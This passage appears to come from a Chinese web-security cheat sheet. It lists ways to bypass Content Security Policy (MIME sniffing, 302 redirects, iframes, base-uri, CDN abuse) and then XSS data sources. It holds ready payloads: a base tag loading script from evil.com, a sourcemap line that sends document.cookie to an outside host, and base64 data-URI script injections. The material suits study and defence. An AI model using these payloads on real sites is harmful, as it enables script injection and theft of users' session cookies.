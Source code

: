 举例来说， csp 禁止跨站读取脚本，但是可以跨站读 img，那么传一个含有脚本的 img，再 `<script href='http://xxx.com/xx.jpg'>`，这里 csp 认为是一个 img，绕过了检查，如果网站没有回正确的 mime type，浏览器会进行猜测，就可能加载该 img 作为脚本  

**302跳转**

对于 302 跳转绕过 CSP 而言，实际上有以下几点限制：
	• 跳板必须在允许的域内。
	• 要加载的文件的 host 部分必须跟允许的域的 host 部分一致  

**iframe**

当可以执行代码时，可以创建一个源为 css js 等静态文件的 frame，在配置不当时，该 frame 并不存在 csp，则在该 frame 下再次创建 frame，达到 bypass 的目的。同理，使用 ../../../ /%2e%2e%2f 等可能触发服务器报错的链接也可以到达相应的目的  

**base-uri**

当 script-src 为 nonce 或无限制，且 base-uri 无限制时，可通过 base 标签修改根 URL 来 bypass，如下加载了 http://evil.com/main.js  

```
<base href="http://evil.com/">
<script nonce="correct value" src="/main.js"></script>
```

**其它**

• location 绕过
• 可上传 SVG 时，通过恶意 SVG 绕过同源站点
• 存在 CRLF 漏洞且可控点在 CSP 上方时，可以注入 HTTP 响应中影响 CSP 解析
• CND Bypass，如果网站信任了某个 CDN, 那么可利用相应 CDN 的静态资源 bypass
• Angular versions <1.5.9 >=1.5.0，存在漏洞 Git Pull Request
• jQuery sourcemap  

```
document.write(`<script>
//@ sourceMappingURL=http://xxxx/`+document.cookie+`<\/script>`);``
```

• a 标签的 ping 属性
• For FireFox	` <META HTTP-EQUIV="refresh" CONTENT="0; url=data:text/html;base64,
PHNjcmlwdD5hbGVydCgnSWhhdmVZb3VOb3cnKTs8L3NjcmlwdD4=">`
•` <link rel="import" />`
• `<meta http-equiv="refresh" content="0; url=http://...." />`
• 仅限制 script-src 时：
	–` <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>  `

**2.5 XSS数据源**

**URL**
• location
• location.href
• location.pathname
• location.search
• location.hash
• document.URL
• document.documentURI
• document.baseURI
**Navigation**
• window.name
• document.referrer
**Communication**
• Ajax
• Fetch
• WebSocket
• PostMessage
**Storage**
• Cookie
• LocalStorage
• SessionStorage  
